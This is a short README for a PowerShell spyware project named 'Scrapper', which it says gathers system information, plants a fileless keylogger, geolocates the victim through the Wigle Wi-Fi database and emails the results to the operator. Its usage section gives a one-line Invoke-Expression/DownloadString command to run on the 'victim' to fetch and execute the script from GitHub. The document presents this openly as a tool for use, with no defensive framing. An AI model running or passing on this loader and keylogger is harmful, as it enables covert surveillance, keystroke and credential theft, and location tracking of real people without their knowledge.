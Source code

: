 # powershellScripts



## Scrapper
Powershell script that 
- Gathers info
- Plants a fileless kelyogger
- Finds the geolocation of the client through querrying the AP name in the Wiggle database
- Sends all info through email back

## How to use
- Fork project to own github so you can change the needed variables
- Change the wiggle api key (optional if you dont need geolocation)
- Change the receiver email in both scrapper.ps1 and mailer.ps1
- Run in powershell on victim : Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/yourGithubRepo/master/scrapper.ps1')
